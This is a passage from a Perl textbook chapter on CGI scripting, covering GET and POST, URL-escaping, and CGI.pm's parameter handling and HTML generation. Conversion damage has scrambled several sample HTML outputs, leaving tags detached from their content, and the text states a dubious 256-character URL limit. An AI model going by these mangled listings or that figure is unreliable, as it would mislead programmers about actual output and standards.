\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=96.6mm, height=40.1mm, viewport=3mm 4mm 205mm 292mm]{image17.ps}is run as

\noindent requested.     \underbar{  }

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 5    Server sends page to be

\noindent viewed by the client.

\noindent 4     CGI script returns plain HTML

\noindent (with client-side code) back to the server.

\noindent 

\noindent 

\noindent 

\noindent The main advantage of the GET method is that these URLs can be bookmarked by browsers. However,

\noindent there's a limit to how large a URL can be before a server will have trouble handling it. The maximum length of a URL, as decreed by the HTTP standard, is 256 characters. Although a longer URL may work, servers are not obliged to accept more than this.

\noindent 

\noindent Even worse, certain characters are disallowed or restricted in a URL (spaces are not allowed, for example), so they must be converted into a safe format (a process known as \textbf{URL-escaping}). This converts awkward characters like spaces, ampersands, quotes, hashes and question marks into hexadecimal ASCII codes. A space, for example, becomes the string \%20.

\noindent 

\noindent URL-escaping allows characters like the ampersand (which is used to separate CGI parameters) to appear in the parameter names and values. But every character escaped in this way ends up being represented by three characters, further limiting the actual data that a URL can contain.

\noindent 

\noindent All of this places a fairly tight limit on the amount of information that a CGI script can be sent via a URL. If we know that our maximum URL size is small, we can use GET without worrying. However, for larger quantities, we need to use the POST method.

\noindent 

\noindent \textit{The POST Method}

\noindent With the GET method, parameters are passed to CGI scripts in the URL. With POST, they're passed in the body of the request instead. This means they aren't limited in size, but since they don't appear in the

\noindent URL, they can't be bookmarked by clients.

\noindent 

\noindent A search form that uses the GET method can have a particular search (complete with search terms) bookmarked, whereas one using POST cannot. Sometimes, of course, we may not want clients to bookmark the URLs generated by forms, in which case, using POST is the preferred method.

\noindent 

\noindent As yet, we haven't tried to use any of the data sent to us by the client. While it's quite possible to parse a query string or read parameters from a POST (by reading from standard input with the $<$$>$ operator, for example), there are many potential traps for the unwary. It's vastly simpler to use the CGI.pm module, which comes as part of Perl's standard library and does all this work for us.

\noindent 

\noindent 

\noindent Writing Interactive CGI Scripts

\noindent 

\noindent Most applications using CGI scripts need them to understand information sent by the client.

\noindent Fortunately, the CGI.pm module makes this easy, providing programmers with a whole host of useful functionality for creating CGI scripts. It includes:

\noindent 

\noindent ? Parameter processing (both GET and POST).

\noindent 

\noindent ? Generating HTTP response headers.

\noindent 

\noindent ? Generating HTML documents programmatically.

\noindent 

\noindent ? Saving and loading CGI states from files.

\noindent 

\noindent ? Server push.

\noindent 

\noindent First, we'll see how to use the CGI.pm module to write CGI scripts more quickly and efficiently. We'll then take a look at some of the other features we can use.

\noindent 

\noindent 

\noindent A Form-Based Example

\noindent 

\noindent The most usual way for a user to supply parameters to a CGI script is through a form. Here is a simple

\noindent HTML form that would generate the parameters we used in the earlier examples:

\noindent 

\noindent 

\noindent $<$HTML$>$$<$HEAD$>$

\noindent $<$TITLE$>$A Simple Form-Based Example$<$/TITLE$>$

\noindent $<$/HEAD$>$

\noindent $<$FORM METHOD=GET ACTION="/perl/askname.plx"$>$

\noindent $<$H1$>$Please enter your name:$<$/H1$>$

\noindent $<$P$>$First name: $<$INPUT NAME="first" TYPE=TEXT$>$$<$/P$>$

\noindent $<$P$>$Last name: $<$INPUT NAME="last" TYPE=TEXT$>$$<$/P$>$

\noindent $<$P$>$$<$INPUT NAME="OK" TYPE=SUBMIT$>$$<$/P$>$

\noindent $<$/FORM$>$

\noindent ...rest of HTML page...

\noindent 

\noindent This generates a GET request and will therefore cause the client to send a URL with a query string attached, as shown above. If we changed the method to POST, the client would instead generate a POST request, with the CGI parameters sent in the body of the HTTP request.

\noindent 

\noindent Although we can handle either eventuality using CGI.pm, there are some differences that we should consider before deciding how we want our script to be called.

\noindent 

\noindent \textit{Passing Parameters with CGI.pm}

\noindent CGI.pm automatically imports parameters from both GET and POST methods into our CGI script. We therefore don't need to do any work ourselves -- we just create a new CGI object.

\noindent 

\noindent When the object is created, it looks for parameters sent in the body of the request. If there was no body, CGI.pm looks for a query string and attempts to parse it for parameters instead. In either case, a hash of CGI parameters and values is created that we can retrieve with the param() method.

\noindent 

\noindent Here's a simple CGI script using param() and a few of CGI.pm's other methods (which we'll see how

\noindent to use later on, in 'Generating HTML Programmatically') that parses the form filled in by the user and displays a friendly message:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#CGIpara1.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent use CGI;

\noindent 

\noindent my \$cgi=new CGI; \#read in parameters

\noindent 

\noindent print \$cgi-$>$header(); \#print a header

\noindent print \$cgi-$>$start\_html("Welcome"); \#generate HTML document start

\noindent print "$<$h1$>$Welcome, ",\$cgi-$>$param('first')," ",\$cgi-$>$param('last'),"$<$/h1$>$";

\noindent print \$cgi-$>$end\_html(); \#finish HTML document

\noindent 

\noindent 

\noindent If we pass no argument to param(), it will return a list of all the parameters received by the script,

\noindent which we can then pass to subroutines or loop over. We can also pass in two arguments, either to set the value of a CGI parameter or to add a new one.

\noindent 

\noindent We want to ensure that the entered name was properly capitalized, so first we put everything in lowercase, using lc. We'd then capitalize the first letter of each parameter using ucfirst, as follows:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#CGIpara2.plx

\noindent use strict;

\noindent use warnings;

\noindent 

\noindent use CGI;

\noindent 

\noindent my \$cgi=new CGI; \#read in parameters

\noindent 

\noindent \#iterate over each parameter name

\noindent foreach (\$cgi-$>$param()) \{

\noindent \#modify and set each parameter value from itself

\noindent \$cgi-$>$param(\$\_,ucfirst(lc(\$cgi-$>$param(\$\_))));

\noindent \}

\noindent 

\noindent print \$cgi-$>$header(); \#print a header

\noindent print \$cgi-$>$start\_html("Welcome"); \#generate HTML document start

\noindent print "$<$h1$>$Welcome, ",\$cgi-$>$param('first')," ",\$cgi-$>$param('last'),"$<$/h1$>$";

\noindent print \$cgi-$>$end\_html();

\noindent 

\noindent 

\noindent \textit{CGI.pm is agnostic about HTTP methods, so this works for GET }or \textit{POST.}

\noindent 

\noindent 

\noindent We can also delete parameters if we no longer need them:

\noindent 

\noindent \$cgi-$>$delete('unwanted\_parameter');

\noindent 

\noindent This might seem like a strange thing to do, but it can be very useful if we wanted to generate a new

\noindent URL referring back to our script, but with slightly different parameters (think of a 'next 10 matches' or

\noindent 'new search' button on a search results page, for example). It can also prevent a form from automatically filling in fields when we use CGI.pm to generate them. See 'Generating HTML Forms' for more details

\noindent on this.

\noindent 

\noindent \textit{Checking the HTTP Method}

\noindent What if we want to check whether GET or POST has been used to call our CGI script? No problem --

\noindent we can just check the request method, either directly:

\noindent 

\noindent if (\$ENV\{"REQUEST\_METHOD"\} eq "GET") \{

\noindent \#It's a GET

\noindent \} else \{

\noindent \#Assume It's a POST

\noindent \}

\noindent 

\noindent 

\noindent Or with the equivalent CGI.pm method:

\noindent 

\noindent if (\$cgi-$>$request\_method() eq "GET") ...

\noindent 

\noindent Why would we want to do this though? As we learned earlier, there are important differences between

\noindent the way that the GET and POST methods work, even if the code to handle them is the same when we're

\noindent using CGI.pm. In particular, if we want to prevent users from bookmarking a URL with a query string,

\noindent we can check the method and return an error in an HTML document if GET is used to access the script.

\noindent 

\noindent \textit{Determining the Execution Environment}

\noindent Perl will run happily on several different platforms, including Windows 9x/2000/NT, UNIX/Linux, and

\noindent Macintosh. In general, it doesn't matter what the server is running on. However, there are rare

\noindent occasions when a CGI script might \textit{need }to know, if, for example, it needs to retrieve information from an external source.

\noindent 

\noindent In this case we can use the standard Perl variable \$\^{}O (or \$OSNAME if we've specified use English;). This will return a string that specifies what type of OS the Perl interpreter was compiled on, for

\noindent example, linux, solaris, dos, MSWin32,   and MacOS are all possible values. We can use this value

\noindent in a CGI script like this:

\noindent 

\noindent \textit{... CGI setup...}

\noindent foreach (\$\^{}O) \{

\noindent /MSWin32/ and do \{

\noindent \textit{...Windows specific stuff...}

\noindent \};

\noindent /MacOS/ and do \{

\noindent \textit{...Macintosh specific stuff...}

\noindent \};

\noindent \#otherwise assume it's Unix-like

\noindent \textit{...Unix specific stuff...}

\noindent \}

\noindent \textit{...Rest of script...}

\noindent 

\noindent Of course, it's far better to write the script in a way that's platform independent and doesn't need to perform platform-specific processing.

\noindent 

\noindent Generating HTML Programmatically

\noindent 

\noindent CGI.pm provides a whole collection of methods for creating HTML. For each case, the function name is the name of the HTML tag, and the parameter is the tag content. For example:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#programmatical.plx

\noindent use strict;

\noindent use warnings;

\noindent use CGI;

\noindent 

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$header(),\$cgi-$>$start\_html("Simple Examples");

\noindent 

\noindent 

\noindent print \$cgi-$>$center("Centered Text");

\noindent print \$cgi-$>$p("A Paragraph");

\noindent print \$cgi-$>$br();

\noindent print \$cgi-$>$b("Bold"),\$cgi-$>$i("Italic");

\noindent print \$cgi-$>$p("A Paragraph",\$cgi-$>$sup("A superscript"));

\noindent 

\noindent print \$cgi-$>$end\_html();

\noindent 

\noindent These methods are independent of the actual request, as a result, they can also be called as class methods and plain functions:

\noindent 

\noindent print \$cgi-$>$center("Object method"); print CGI-$>$center("Class method"); print CGI::center("Function call");

\noindent 

\noindent One advantage of using these methods is that it's impossible to mistype an HTML element, since

\noindent CGI.pm won't recognize an invalid tag name as a method. However, it also means that we need to keep

\noindent CGI.pm up to date in order to use new tags without defining them ourselves.

\noindent 

\noindent The HTML methods of CGI.pm are even more powerful than this. For example, we can nest them to create compound elements, so to create a list, we can write:

\noindent 

\noindent 

\noindent print \$cgi-$>$ul(\$cgi-$>$li("One"),\$cgi-$>$li("Two"),\$cgi-$>$li("Three"));

\noindent 

\noindent When you view your web page's source, you will see that this produces:

\noindent 

\noindent 

\noindent $<$UL$>$$<$LI$>$One$<$/LI$>$ $<$LI$>$Two$<$/LI$>$ $<$LI$>$Three$<$/LI$>$$<$/UL$>$

\noindent 

\noindent This isn't very legible for HTML of any size, so we can make use of the CGI::Pretty module, which extends CGI.pm to produce a more user-readable layout:

\noindent 

\noindent use CGI::Pretty;

\noindent my \$cgi=new CGI;

\noindent print \$cgi-$>$ul(\$cgi-$>$li("One"),\$cgi-$>$li("Two"),\$cgi-$>$li("Three"));

\noindent 

\noindent This produces the output:

\noindent 

\noindent $<$UL$>$

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent $<$/UL$>$

\noindent 

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent $<$LI$>$

\noindent 

\noindent $<$/LI$>$

\noindent 

\noindent 

\noindent One

\noindent 

\noindent 

\noindent Two

\noindent 

\noindent 

\noindent Three

\noindent 

\noindent 

\noindent 

\noindent We'll cover CGI::Pretty in more detail in 'Generating Human-Readable HTML' later.

\noindent While undoubtedly useful, this is still somewhat clunky. We can do the same thing more efficiently by passing a reference to a list into \$cgi-$>$li(). If a list reference is supplied to any HTML method, the same HTML is applied to each of them.

\noindent 

\noindent The following example uses this useful shortcut to produce the same result as the first example:

\noindent 

\noindent print \$cgi-$>$ul(\$cgi-$>$li(["One","Two","Three"]));

\noindent 

\noindent If a list argument is supplied, it's interpreted as the contents of the tag. The resulting text goes between the tags. In the case of a list, the values are concatenated together, so the following would not do what

\noindent we want:

\noindent 

\noindent print \$cgi-$>$ul(\$cgi-$>$li("One","Two","Three")); \#creates one list item only

\noindent 

\noindent If we want to set tag attributes, we must precede the content argument(s) with an anonymous hash containing the attributes and their values. The attributes use a hyphen-prefixed hash for the attribute name key (the hyphen is removed before the attribute is created) followed by a value.

\noindent 

\noindent To make our list start counting from a instead of 1, we can add a type attribute like this:

\noindent 

\noindent print \$cgi-$>$ol(\{-type=$>$"a"\}),\$cgi-$>$li(["Item1","Item2","Item3"]);

\noindent 

\noindent Better still, if we combine an attribute-hash reference with a list reference, then not only is the called method applied to each element in the list, but all the attributes are as well:

\noindent 

\noindent print \$cgi-$>$td(\{-bgcolor=$>$"white",colspan=$>$2\},["First","Second","Third"]);

\noindent 

\noindent This is particularly useful for generating tables. In the following example, we use one call to create three table rows with the same attributes for each. Because tr is also a standard Perl function, the $<$TR$>$ tag is generated with the Tr() function, to avoid a conflict with the function-based interface, which we will

\noindent see in a moment:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#table.plx

\noindent use warnings;

\noindent use CGI::Pretty;

\noindent use strict;

\noindent print "Content-type: text/html\textbackslash n\textbackslash n";

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$table(\{-border=$>$1,-cellspacing=$>$3,-cellpadding=$>$3\},

\noindent \$cgi-$>$Tr(\{-align=$>$'center',-valign=$>$'top'\}, [

\noindent \$cgi-$>$th(["Column1","Column2","Column3"]),

\noindent ]),

\noindent \$cgi-$>$Tr(\{-align=$>$'center',-valign=$>$'middle'\}, [

\noindent \$cgi-$>$td(["Red","Blue","Yellow"]),

\noindent \$cgi-$>$td(["Cyan","Orange","Magenta"]),

\noindent \$cgi-$>$td(\{-colspan=$>$3\},["A wide row"]),

\noindent ]),

\noindent \$cgi-$>$caption("An example table")

\noindent );

\noindent 

\noindent 

\noindent This produces the following source:

\noindent 

\noindent $<$TABLE CELLSPACING="3" BORDER="1" CELLPADDING="3"$>$

\noindent $<$TR ALIGN="center" VALIGN="top"$>$

\noindent $<$TH$>$

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent $<$/TR$>$

\noindent 

\noindent $<$/TH$>$

\noindent $<$TH$>$

\noindent 

\noindent $<$/TH$>$

\noindent $<$TH$>$

\noindent 

\noindent $<$/TH$>$

\noindent Column1

\noindent 

\noindent 

\noindent Column2

\noindent 

\noindent 

\noindent Column3

\noindent $<$TR ALIGN="center" VALIGN="middle"$>$

\noindent $<$TD$>$

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent $<$/TR$>$

\noindent 

\noindent $<$/TD$>$

\noindent $<$TD$>$

\noindent 

\noindent $<$/TD$>$

\noindent $<$TD$>$

\noindent 

\noindent $<$/TD$>$

\noindent Red

\noindent 

\noindent 

\noindent Blue

\noindent 

\noindent 

\noindent Yellow

\noindent $<$TR ALIGN="center" VALIGN="middle"$>$

\noindent $<$TD$>$

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent $<$/TR$>$

\noindent 

\noindent $<$/TD$>$

\noindent $<$TD$>$

\noindent 

\noindent $<$/TD$>$

\noindent $<$TD$>$

\noindent 

\noindent $<$/TD$>$

\noindent Cyan

\noindent 

\noindent 

\noindent Orange

\noindent 

\noindent 

\noindent Magenta

\noindent $<$TR ALIGN="center" VALIGN="middle"$>$

\noindent $<$TD COLSPAN="3"$>$

\noindent A wide row

\noindent 

\noindent $<$/TR$>$

\noindent $<$/TD$>$

\noindent 

\noindent 

\noindent 

\noindent $<$/TABLE$>$

\noindent $<$CAPTION$>$

\noindent An example table

\noindent $<$/CAPTION$>$

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=49.6mm, height=33.2mm, viewport=3mm 4mm 205mm 292mm]{image18.ps}and the web page generated from this HTML will look like this:

\noindent 

\noindent 

\noindent 

\noindent We can even invent our own HTML-generation methods simply by importing them from CGI.pm and

\noindent then calling them. Here's an example of an XML fruit document generated using CGI.pm:

\noindent 

\noindent use CGI::Pretty qw(:standard fruit fruits);

\noindent 

\noindent print header("text/xml"),

\noindent fruits(

\noindent fruit(\{-size=$>$"small",-color=$>$"red"\},["Strawberry","Cherry"])

\noindent );

\noindent 

\noindent The names in the qw tell CGI.pm to create methods that internally generate tags with those names, and then import them as functions into the main namespace. As it's an imported function, we could just as

\noindent well have said:

\noindent 

\noindent print fruits(fruit( ... ));

\noindent 

\noindent The output generated from this script looks like this:

\noindent 

\noindent ContentType: text/xml

\noindent 

\noindent $<$FRUITS$>$

\noindent 

\noindent $<$FRUIT SIZE="small" COLOR="red"$>$ Strawberry

\noindent $<$/FRUIT$>$

\noindent $<$FRUIT SIZE="small" COLOR="red"$>$ Cherry

\noindent $<$/FRUIT$>$

\noindent $<$/FRUITS$>$

\noindent 

\noindent Note that without some additional information (like an XML stylesheet -- and then only in browsers that support it, like Internet Explorer), most browsers won't be able to properly display this document as it

\noindent is.

\noindent 

\noindent The ability to use our new tags as functions rather than methods is very handy, and it would be nice if we could do the same for all of CGI.pm's existing HTML functions rather than using \$cgi-$>$ or CGI:: prefixes all the time.

\noindent 

\noindent One way would be to list just the tag we want to use. Fortunately we don't have to, as CGI.pm has several lists of tags built-in and ready for us to use:

\noindent 

\noindent :cgi CGI handling methods, for example, param().

\noindent 

\noindent :form Form generation methods, for example, textfield().

\noindent 

\noindent :html All HTML generation methods (:html2 + :html3 + :netscape).

\begin{tabular}{|p{0.9in}|p{2.2in}|p{1.1in}|} \hline 
:html2 & HTML 2.0 only. &  \\ \hline 
:html3 & HTML 3.0 only. &  \\ \hline 
:netscape & Netscape HTML extensions (blink,   fontsize, & center). \\ \hline 
\end{tabular}



\noindent :standard All of the above except :netscape (:html2 + :html3 + :cgi + :form).

\noindent 

\noindent :all Everything (all the above, plus internal functions).

\noindent 

\noindent 

\noindent We can use most of CGI.pm's methods as functions by importing the :standard keyword. This

\noindent example shows off several of different ways of creating lists using functions instead of methods:

\noindent 

\noindent 

\noindent print header(),start\_html('List Demo');

\noindent 

\noindent print p('A list the hard way:');

\noindent print ul(li('One'),li('Two'),li('Three'));

\noindent print p('A list the easy way:');

\noindent print ul(li(['One','Two','Three']));

\noindent print p('Using an existing list:');

\noindent my @list=('One','Two','Three');

\noindent print ul(li(\textbackslash @list));

\noindent print p('With attributes:');

\noindent print ul(\{-type=$>$'disc'\},li(['One','Two','Three']));

\noindent 

\noindent print end\_html();

\noindent 

\noindent The :standard keyword gives us most of CGI.pm's methods as functions, including methods like param(), header() and start\_html(). If we just want to use the basic HTML functions and keep everything else as methods, we can import the :html keyword instead:

\noindent 

\noindent 

\noindent use CGI qw(:html);

\noindent 

\noindent If we want to invent HTML tags, we have to import their names as well, in the same way as before. For example, to get our $<$FRUIT$>$ and $<$FRUITS$>$ tags supported, we could change our fruit script to:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#fruit\_func.plx

\noindent use warnings;

\noindent use CGI::Pretty qw(:standard fruit fruits);

\noindent use strict;

\noindent 

\noindent print header("text/xml"),

\noindent fruits(

\noindent fruit(\{-size=$>$"small",-color=$>$"red"\},["Strawberry","Cherry"])

\noindent );

\noindent 

\noindent \textit{The Environment Dumper Rewritten}

\noindent To show how CGI.pm can be used to rewrite simple CGI scripts, here is the environment dumper CGI

\noindent script rewritten with CGI.pm and some of its handy HTML-generation methods:

\noindent 

\noindent Try It Out : So Far So Good

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#envdump.plx

\noindent use warnings;

\noindent use strict;

\noindent use CGI::Pretty;

\noindent 

